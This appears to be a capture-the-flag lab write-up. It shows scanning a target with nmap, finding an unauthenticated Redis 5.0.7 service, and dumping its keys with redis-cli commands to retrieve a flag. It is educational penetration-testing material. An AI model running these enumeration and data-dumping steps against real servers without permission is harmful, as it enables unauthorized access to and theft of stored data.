



### Step To Reproduce


#### Enumeration with Nmap

First, we start with a full port scan to identify open services on the target.
```Bash
nmap -sV -Pn -p- -T5 10.129.69.96 
```

Results:
```md
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

The scan results show that a Redis server is open on its default port (6379). Since it doesn't require authentication, we can attempt to access it using the redis-cli utility.

#### Accessing Redis Server

We connect to the server by specifying the target IP:

```Bash
redis-cli -h 10.129.69.96
```



#### Information Gathering

After establishing the connection, we use the info command to enumerate server details and statistics.

```Bash
10.129.69.96:6379> info
```
```md
Key Findings:
Redis Version: 5.0.7
Keyspace: db0:keys=4 (Indicates there are 4 keys stored in database 0).
```

#### Dumping Database Keys

Since the Keyspace are 4 keys, we list all available keys using the SELECT and KEYS commands:
```Bash
10.129.69.96:6379> SELECT 0
10.129.69.96:6379> KEYS *
```



#### Retrieving the Flag

After listing the keys, we identify the key name and use the GET command to extract its value (the flag).

```Bash
10.129.69.96:6379> GET <key-name>
```
